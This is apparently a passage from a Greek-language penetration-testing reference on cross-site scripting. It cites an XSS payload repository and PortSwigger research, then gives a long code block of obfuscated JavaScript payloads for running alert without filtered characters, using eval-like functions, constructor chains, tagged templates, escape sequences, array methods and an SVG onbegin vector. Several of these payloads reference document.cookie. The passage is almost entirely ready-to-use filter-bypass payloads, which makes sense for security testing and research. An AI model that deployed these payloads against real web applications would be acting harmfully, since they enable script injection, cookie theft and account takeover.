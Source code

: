 * [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Αυθαίρετη κλήση συνάρτησης (alert)**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````